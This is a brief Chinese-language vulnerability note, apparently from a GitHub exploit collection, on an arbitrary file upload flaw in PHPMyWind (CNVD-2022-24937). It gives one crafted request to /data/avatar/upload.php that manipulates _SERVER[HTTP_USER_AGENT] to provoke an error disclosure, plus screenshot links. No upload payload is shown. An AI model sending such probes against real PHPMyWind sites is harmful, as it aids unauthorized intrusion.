 # PHPMyWind(CNVD_2022_24937) 任意文件上传
![image](https://user-images.githubusercontent.com/53397197/187666967-9d65e970-8b1c-4137-bfe2-eeae91de7e6e.png)
## 查看报错信息:/data/avatar/upload.php?_SERVER[HTTP_USER_AGENT][]=1
![image](https://user-images.githubusercontent.com/53397197/187666995-75fe9c99-12a5-4e08-a1c9-95af84bb0827.png)

